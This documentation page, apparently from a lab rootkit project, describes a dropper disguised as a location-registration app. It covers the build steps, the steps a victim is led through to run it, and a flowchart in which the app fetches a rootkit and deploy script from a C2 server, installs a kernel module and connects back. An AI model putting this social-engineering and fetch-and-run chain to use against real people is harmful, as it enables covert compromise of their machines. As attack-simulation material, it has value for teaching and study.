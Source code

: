 ```yaml
---
title: "Dropper Deployment"
description: "Social engineering tool for automated rootkit deployment"
icon: "download"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 205
---
```


## Overview

The dropper is a social engineering tool disguised as "NeoGeoLoc - Location Registration System". It provides a realistic attack simulation where the victim downloads and runs what appears to be a legitimate location registration application.

{{<alert context="info" text="This page is available in the real C2 at `http://jules_chef_de_majeur.epirootkit.com:8080`"/>}}

## Prerequisites

1. **C2 Server**: [Attacker VM Setup]({{< relref "attacking-vm-setup.md" >}}) - Must be running
2. **Dropper Built**: Run `./deploy_c2.sh -d` to build the dropper and start landing page

## Build Process

The dropper is built from Node.js source code and packaged as a standalone executable:

```bash
# Build dropper manually (if needed)
cd dropper
./build.sh
```

**What happens during build**:
- Packages `dropper.js` with embedded HTML/CSS assets
- Creates `NeoGeoLoc` binary using `pkg` 
- Copies binary to `attacking_program/public/downloads/`
- Makes it available at: `http://192.168.200.11:3000/download/NeoGeoLoc`

## Victim Instructions

### Step 1: Access the Landing Page

The victim should navigate to: `http://192.168.200.11:8080`

{{< figure src="/images/dropper/landing.png" alt="Landing Page NGL" class="img-fluid" >}}

**What the victim sees**: A professional-looking download page for "NeoGeoLoc - Location Registration System"

**Technical details**: The landing page server proxies the download from the C2 server (`http://192.168.200.11:3000/download/NeoGeoLoc`)

### Step 2: Download the Application

1. **Click the download button** on the landing page
2. **Save the file** to Downloads folder (saved as `NeoGeoLoc`)
3. **Make it executable**:
   ```bash
   chmod +x ~/Downloads/NeoGeoLoc
   ```

### Step 3: Run the Application

1. **Double-click** the downloaded file, or run from terminal:
   ```bash
   ~/Downloads/NeoGeoLoc
   ```

2. **Application interface available at `http://localhost:8888`**:

{{< figure src="/images/dropper/application.png" alt="NeoGeoLoc Application Interface" class="img-fluid" >}}

**Interface elements**:
- Server address field (pre-filled with server URL)
- "Register Location" button
- Professional appearance to avoid suspicion

### Step 4: Register Location

1. **Click "Register Location"** button
2. **Wait for confirmation** - Application shows "Processing..."
3. **Success message** appears: "Location registered successfully!"

**Behind the scenes**: The application automatically downloads and installs the rootkit during this process.

## Technical Process Flow

What happens behind the scenes when the victim clicks "Register Location":

```mermaid 
flowchart TB
    A["Victim clicks 'Register Location'"]
    B["Dropper downloads rootkit from C2 server<br/>(http://192.168.200.11:3000/download/epirootkit.ko)"]
    C["Dropper downloads deploy script<br/>(http://192.168.200.11:3000/download/deploy_rootkit.sh)"]
    D["Executes deploy_rootkit.sh script"]
    E["Installs kernel module with the addressselected in the dropper and default port<br/>(address=192.168.200.11 port=4444)"]
    F["Rootkit establishes C2 connection"]
    G["Application shows 'Registration successful!'"]
    
    A --> B --> C --> D --> E --> F --> G
```


